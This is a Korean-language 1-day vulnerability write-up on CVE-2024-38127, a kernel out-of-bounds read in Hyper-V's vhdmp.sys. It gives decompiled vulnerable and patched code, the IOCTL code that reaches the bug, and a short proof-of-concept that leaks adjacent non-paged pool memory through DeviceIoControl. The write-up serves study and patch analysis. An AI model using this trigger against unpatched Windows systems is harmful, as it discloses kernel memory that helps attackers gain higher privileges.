

# Introduction

안녕하세요, pwndorei입니다. 이번에도 어김없이 Hyper-V 1-day 취약점 분석글로 돌아왔습니다. 이번 달에 나온 취약점은 아니고 저번 달에 공개된 CVE-2024-38127이란 취약점입니다. 이번 달에도 DoS 취약점이 하나 공개되었던데 시간이 된다면 그거도 분석해보겠습니다….

# CVE-2024-38127

- Impact: Elevation of Privilege
- Max Severity: Important
- Weakness: CWE-126(Buffer Over-read)
- poc: [https://github.com/pwndorei/CVE-2024-38127](https://github.com/pwndorei/CVE-2024-38127)

## Affected Product & Version Information

- Windows 10 Version 1607 for x64-based Systems < 10.0.14393.7259
- Windows 11 Version 24H2 for x64-based Systems < 10.0.26100.1457
- Windows 10 for x64-based Systems < 10.0.10240.20751
- Windows 11 Version 23H2 for x64-based Systems < 10.0.22631.4037
- Windows 11 Version 23H2 for ARM64-based Systems < 10.0.22631.4037
- Windows 10 Version 22H2 for x64-based Systems < 10.0.19045.4780
- Windows 11 Version 22H2 for x64-based Systems < 10.0.22621.4037
- Windows 11 Version 22H2 for ARM64-based Systems < 10.0.22621.4037
- Windows 10 Version 21H2 for x64-based Systems < 10.0.19044.4780
- Windows 11 version 21H2 for ARM64-based Systems < 10.0.22000.3147
- Windows 11 version 21H2 for x64-based Systems < 10.0.22000.3147
- Windows 10 Version 1809 for x64-based Systems < 10.0.17763.6189
- …

## Description

CVE-2024-38127은 Hyper-V에서 발생한 EoP 취약점으로 이를 성공적으로 익스플로잇한 경우 공격자는 SYSTEM 권한을 얻을 수 있습니다. 하지만 Weakness(CWE-126)에서 볼 수 있는 것처럼 발생하는 취약점은 OOB Read이고 Microsoft가 [공개한 정보](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-38127)를 참고해봤을 때 실제로 EoP 익스플로잇이 가능한 취약점으로는 보기 힘들 것 같습니다.

## Patch Diffing

patch diffing에는 Windows 11 22H2 환경에서 2024년 7월(KB5040442)과 취약점이 패치된 2024년 8월(KB5041585) 패치가 사용되었습니다. 이번에도 Patch-V로 관련 바이너리 추출 및 패치를 진행했고 지난 CVE-2024-38080과 동일하게 SYSTEM 권한을 획득할 수 있는 EoP 취약점이기 때문에 커널 드라이버(.sys)를 집중적으로 diffing했습니다.

# Vulnerability

취약점은 vhdmp.sys에서 발생했고 해당 드라이버는 이름(Virtual Hard Disk Mini Port)처럼 가상 하드 디스크와 연관이 있습니다. 먼저 아래는 취약점이 발생한 `VhdmpiQueryMetaData` 함수입니다.

## `VhdmpiQueryMetaData` (vhdmp.sys 10.0.22621.3672)

```c
__int64 __fastcall VhdmpiQueryMetadata(
        struct _VHD_HANDLE_CONTEXT *a1,
        struct _VHD_VIRTUAL_DISK *a2,
        unsigned int a3,
        __int64 SystemBuffer,
        unsigned int *OutputBufferLengthPtr)
{
	...
  v5 = *((_QWORD *)a2 + 18);
  v41 = 0;
  VhdmpiAcquirePassiveLock(v5 + 1120);
  if ( !SystemBuffer )
    goto LABEL_86;
  v10 = OutputBufferLengthPtr;
  if ( !OutputBufferLengthPtr )
    goto LABEL_86;
  OutputBufferLength = *OutputBufferLengthPtr;
  v12 = 32;
  if ( *OutputBufferLengthPtr < 0x20 )
    goto LABEL_86;
  *(_OWORD *)SystemBuffer = 0i64;
  *(_OWORD *)(SystemBuffer + 16) = 0i64;
  v13 = *(_QWORD *)v5;
  if ( *(char ***)v5 != &IsoParser )
  {
    if ( a3 > 0x3E8 )
      goto LABEL_86;
    if ( a3 == 1000 )
    {
      *(_DWORD *)SystemBuffer = 1000;
      VhdmpiVirtualDiskToInstanceId((__int64)a2, (_OWORD *)(SystemBuffer + 8));
      goto LABEL_18;
    }
    if ( a3 <= 8 )
    {
      ...
      if ( a3 )
      {
        if ( a3 == 1 )
        {
          *(_DWORD *)SystemBuffer = 1;
          (*(void (__fastcall **)(__int64, __int64))(*(_QWORD *)v5 + 216i64))(v5, SystemBuffer + 8);
          goto LABEL_25;
        }
        if ( a3 != 2 )
        {
          switch ( a3 )
          {
            ...
            case 5u:                            //[1]
              v24 = *(unsigned __int16 *)(v5 + 88);
              *(_DWORD *)SystemBuffer = 5;
LABEL_54:
              OutputLength = v24 + 0x22;//[2]
              if ( OutputBufferLength >= (int)v24 + 0x22 )
              {
                *(_DWORD *)(SystemBuffer + 12) = v24 + 2;
                v26 = (void *)(SystemBuffer + 16);
                *(_BYTE *)(SystemBuffer + 8) = 1;
                v27 = v24;
                memmove(v26, *(const void **)(v5 + 96), v24);//[3]
                *((_WORD *)v26 + (v27 >> 1)) = 0;
              }
              *v10 = OutputLength;//[4], v10 == OutputBufferLengthPtr
              goto LABEL_26;
            ...
          }
	...
}
```

위 함수는 이름처럼 가상 하드 디스크의 메타데이터를 쿼리하는 기능을 하며 `DeviceIoControl`을 통해 호출될 수 있습니다. 함수의 세 번째 인자인 `a3`는 시스템 버퍼의 첫 4바이트 값으로 `if` 문이나 `switch-case`에서 사용되는 값으로 특정 동작(어떤 메타데이터를 쿼리할지 등)을 지정하는 역할을 하는 것으로 보입니다. 함수의 네 번째 인자인 `SystemBuffer`는 변수명처럼 IRP의 시스템 버퍼로 메타 데이터는 해당 버퍼에 복사되어 유저모드 프로세스로 반환됩니다. 마지막으로 함수의 다섯 번째 인자인 `OutputBufferLengthPtr`는 IRP의 시스템 버퍼(커널공간)에서 유저공간 버퍼로 복사될 데이터의 길이를 지정합니다.

취약점은 `a3`이 5일 때 실행되는 [1]에서 발생합니다. 해당 분기에서는 먼저 [2]에서 메타 데이터의 길이를 계산하여 `OutputLength` 변수에 저장합니다. 이후 시스템 버퍼의 크기(`OutputBufferLength`)와 메타 데이터의 길이(`OutputLength`)를 비교하는데 시스템 버퍼의 크기가 더 작다면 데이터를 저장할 메모리가 부족한 것이기 때문에 `if` 문 내부로 진입하지 않고 데이터 복사를 위한 `memmove`([3])도 호출되지 않습니다. 하지만 `if` 문 내부가 실행되지 않더라도 [4]에서 시스템 버퍼에서 유저 버퍼로 복사될 크기가 메타 데이터의 길이(`OutputLength`)로 설정됩니다. 이는 시스템 버퍼의 크기보다 큰 값이기 때문에 유저 버퍼로 데이터가 복사될 때 시스템 버퍼와 인접한 non paged pool 메모리를 OOB Read하게 됩니다.

# Proof-of-Concept

취약점이 발생하는 `VhdmpiQueryMetaData` 함수는 아래의 `VhdmpiGetMetaInformation` 함수에서 호출됩니다. 또한 [4]를 보면 `OutputBufferLength`의 값이 `irp→IoStatus.Information`에 저장되는 것을 볼 수 있는데 취약점에서 다룬 것처럼 이로 인해 OOB Read가 발생합니다.

```c
__int64 __fastcall VhdmpiGetMetaInformation(struct _VHD_HANDLE_CONTEXT *a1, struct _IRP *irp)
{
  ...
  v6 = VhdmpiValidateMetadataAccessForHandle(a1, 1);
  if ( v6 >= 0 )
  {
    ...
    else                                        
    {
      SystemBuffer = (unsigned int *)irp->AssociatedIrp.SystemBuffer;
      OutputBufferLength = CurrentStackLocation->Parameters.DeviceIoControl.OutputBufferLength;
      v6 = VhdmpiQueryMetadata(
             a1,
             (struct _VHD_VIRTUAL_DISK *)v7,
             *SystemBuffer,
             (__int64)SystemBuffer,
             &OutputBufferLength);
      if ( v6 < 0 )
      {
        ...
      }
      else
      {
        v6 = 0;
        irp->IoStatus.Information = OutputBufferLength;//[4]
      }
    }
    VhdmpiReleasePassiveLockShared(v8);
  }
  if ( v6 < 0 )
    goto LABEL_15;
  return (unsigned int)v6;
}
```

위 함수는 `VhdmpiIsoControlObjectDeviceControlHandler` 함수나 아래의 `VhdmpiVhdControlObjectDeviceControlHandler` 함수에서 호출되는데 `VhdmpiVhdControlObjectDeviceControlHandler`에서는 IoControlCode가 0x2D1940일 때 호출됩니다.

```c
__int64 __fastcall VhdmpiVhdControlObjectDeviceControlHandler(struct _VHD_HANDLE_CONTEXT *a1, struct _IRP *irp)
{

  CurrentStackLocation = irp->Tail.Overlay.CurrentStackLocation;
  IoControlCode = CurrentStackLocation->Parameters.DeviceIoControl.IoControlCode;
  if ( !*((_QWORD *)a1 + 38) )
    goto LABEL_3;
  v21 = *((_DWORD *)a1 + 1);
  if ( (v21 & 4) != 0 )
  {
    if ( IoControlCode == 0x2D1A54 )
      goto LABEL_217;
LABEL_38:
    InternalScsiAddress = -1073741811;
    goto LABEL_16;
  }
  if ( (v21 & 0x800) != 0 )
  {
    ...
  }
  if ( IoControlCode <= 0x2D19C6 )
  {
    ...
    else
    {
      if ( IoControlCode == 0x2D197C )
        goto LABEL_146;
      if ( IoControlCode == 0x41018
        || IoControlCode == 0x2D191C
        || IoControlCode == 2955552
        || IoControlCode == 2955568
        || IoControlCode == 2955572
        || IoControlCode == 2955584
        || IoControlCode == 2955588
        || IoControlCode == 2955592
        || IoControlCode == 2955600 )
      {
LABEL_18:
        if ( IoControlCode <= 0x2D1960 )
        {
          if ( IoControlCode != 0x2D1960 )
          {
            if ( IoControlCode <= 0x2D1944 )
            {
              if ( IoControlCode != 0x2D1944 )
              {
                v15 = IoControlCode - 0x41018;
                if ( !v15 )
                {
                  ...
                v16 = v15 - 0x290904;
                if ( !v16 )                     // IoControlCode == 0x2d191c
                {
                  ...
                }
                v17 = v16 - 4;
                if ( !v17 )                     // IoControlCode == 0x2d1918
                {
                  ...
                }
                v18 = v17 - 4;
                if ( v18 )                      // IoControlCode != 0x2d1914
                {
                  v19 = v18 - 0xC;
                  if ( v19 )
                  {
                    v20 = v19 - 4;
                    if ( v20 )
                    {
                      if ( v20 == 0xC )         // IoControlCode == 0x2D1940
                                                // Call VhdmpiGetMetaInformation -> VhdmpiQueryMetadata
                      {
                        InternalScsiAddress = VhdmpiGetMetaInformation(a1, irp);
                        if ( InternalScsiAddress >= 0 )
                          goto LABEL_14;
                        if ( (unsigned int)dword_1C0082048 <= 2 || !tlgKeywordOn((__int64)&dword_1C0082048, 4LL) )
                          goto LABEL_16;
                        v22 = 4309;
                        pszFormat = "VhdmpiVhdControlObjectDeviceControlHandler: query virtual disk metadata request failed (0x%08x)";
                        goto LABEL_91;
                      }
                      goto LABEL_227;
                    }
                  ...
                }
              }
	...
}
```

이제 취약점을 트리거하기 위한 IoControlCode를 알아 냈으니 `DeviceIoControl`을 호출할 차례입니다. `DeviceIoControl`에는 `VirtDisk.h`에 정의된 `OpenVirtualDisk`나 `CreateVirtualDisk` 함수를 통해 얻어진 가상 하드 디스크의 HANDLE을 사용합니다.

아래는 CreateVirtualDisk을 호출해서 가상 하드 디스크를 생성하는 코드입니다.

```c
	DWORD status = 0;
	PWCHAR VhdxPath = VHDX_PATH;
	HANDLE Vhdx = NULL;
	GUID uniqueId;
	UuidCreate(&uniqueId);
	VIRTUAL_STORAGE_TYPE VStorType = { 0, };
	CREATE_VIRTUAL_DISK_PARAMETERS CreateParam = {
		.Version = CREATE_VIRTUAL_DISK_VERSION_2,
		.Version2 = {
			.UniqueId = uniqueId,
			.MaximumSize = 1073741824,//1GB
			.BlockSizeInBytes = 0,
			.SectorSizeInBytes = 512,
			.PhysicalSectorSizeInBytes = 512,
			.ParentPath = NULL
		},
	};
	ULONG SizeUsed = 0;

	VStorType.DeviceId = VIRTUAL_STORAGE_TYPE_DEVICE_UNKNOWN;

	status = CreateVirtualDisk(
		&VStorType,
		VhdxPath,
		VIRTUAL_DISK_ACCESS_NONE,
		NULL,
		CREATE_VIRTUAL_DISK_FLAG_FULL_PHYSICAL_ALLOCATION,
		0,
		&CreateParam,
		NULL,
		&Vhdx
	);
```

이후 얻어진 HANDLE을 사용해서 DeviceIoControl을 호출해서 취약점을 트리거할 수 있습니다.

```c
	DWORD InBuffer = 5;
	status = DeviceIoControl(
		Vhdx,
		0x2d1940,
		&InBuffer,
		4,
		OutBuffer,
		0x20,
		NULL,
		NULL);
```

위 코드에서는 `DeviceIoControl`의 `nOutBufferSize` 인자로 0x20을 사용했지만 실제 쓰이는 데이터는 그 이상이기 때문에 충분히 큰 메모리를 할당해줄 필요가 있습니다. DeviceIoControl 호출은 실패하지만 데이터는 제대로 복사가 되기 때문에 OOB Read된 데이터를 확인해보면 아래와 같이 Non paged pool 메모리의 태그나 커널 메모리 주소로 보이는 값을 볼 수 있습니다.



위 스크린샷은 커널 디버깅을 통해 시스템버퍼와 인접한 non paged pool 메모리의 데이터와 poc 실행 후 OOB Read된 데이터가 같음을 보이고 있습니다.

# Patch

해당 취약점에 대한 패치는 아래와 같습니다.

## `VhdmpiQueryMetaData` (vhdmp.sys 10.0.22621.4036)

```c
          case 5u:
            v19 = *(unsigned __int16 *)(v5 + 88);
            *(_DWORD *)SystemBuffer = 5;
LABEL_17:
            if ( OutputBufferLength >= (int)v19 + 0x22 )
            {
              *(_BYTE *)(SystemBuffer + 8) = 1;
              *(_DWORD *)(SystemBuffer + 12) = v19 + 2;
              memmove((void *)(SystemBuffer + 16), *(const void **)(v5 + 96), v19);
              *(_WORD *)(SystemBuffer + 16 + 2 * (v19 >> 1)) = 0;
            }
            else if ( (unsigned int)Feature_797274427__private_IsEnabledDeviceUsage() )//[1]
            {
              *(_DWORD *)(SystemBuffer + 12) = v19 + 2;
LABEL_22:
              *v7 = v12;//[2]
              v17 = 0;
              goto LABEL_89;
            }
            v12 = v19 + 34;
```

기존과 달리 [1]에 else if가 추가되어 OutputBuffer의 크기가 부족하다면 [2]에서 Output의 크기를 0으로 설정하면서 OOB Read가 발생하지 않게 되었습니다.

# Demo

<iframe width="560" height="315" src="https://www.youtube.com/embed/dj6xTMZgB-8?si=0Irm_wB0RIlHE5vp" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>